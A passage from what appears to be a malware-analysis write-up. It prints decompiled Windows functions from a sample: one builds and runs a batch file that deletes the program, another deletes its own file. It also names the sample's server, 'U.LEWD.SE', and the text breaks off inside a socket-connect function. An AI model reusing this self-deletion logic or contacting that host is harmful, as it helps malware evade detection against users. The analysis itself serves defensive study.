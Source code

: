     ```
    uint FUN_00406ca6(LPCVOID param_1)
    {
    ...
    
    uVar1 = FUN_0040a569(&DAT_004031ec,local_250);
    if ((char)uVar1 != '\0') {
        CharToOemW(local_250,local_354);
        DVar2 = FUN_00405faa(&param_1,"@echo off\r\n%s\r\ndel /F \"%s\"\r\n");
        if (DVar2 != 0xffffffff) {
        uVar1 = FUN_0040a39d(local_250,param_1,DVar2);
        FUN_004051e6(param_1);
        if ((((char)uVar1 != '\0') &&
            (iVar3 = FUN_00405ed9(extraout_ECX,0x10e,L"/c \"%s\""), -1 < iVar3)) &&
            (DVar2 = GetEnvironmentVariableW(L"ComSpec",local_250,0x104), DVar2 - 1 < 0x103)) {
            FUN_00405299(local_48,0,0x44);
            local_18 = 0;
            local_1c = 1;
            DVar2 = FUN_00406aad(local_250,local_570,(LPCWSTR)0x0,local_48,(undefined *)0x0);
            return DVar2 & 0xffffff00 | (uint)(DVar2 != 0);
        }
        }
        uVar1 = FUN_0040a548(local_250);
    }
    return uVar1 & 0xffffff00;
    }
    ```

    - It actually creates a bat file that run in the background every time you start the program.

    - What's more, <span style="color:red">*FUN_00406ca6*</span> also calls <span style="color:red">*FUN_0040a548*</span>, which is used to delete itself.

    ```
    uint FUN_0040a548(LPCWSTR param_1)
    {
    uint uVar1;
    
    SetFileAttributesW(param_1,0x80);
    uVar1 = DeleteFileW(param_1);
    return uVar1 & 0xffffff00 | (uint)(uVar1 != 0);
    }
    ```

# Summary 
* The server's name: <span style="color:red">*U.LEWD.SE*</span>.
* The function to connect to server:
    ```
    SOCKET FUN_0040822e(void)
    {
    SOCKET s;
    int iVar1;
    sockaddr *unaff_EDI;
    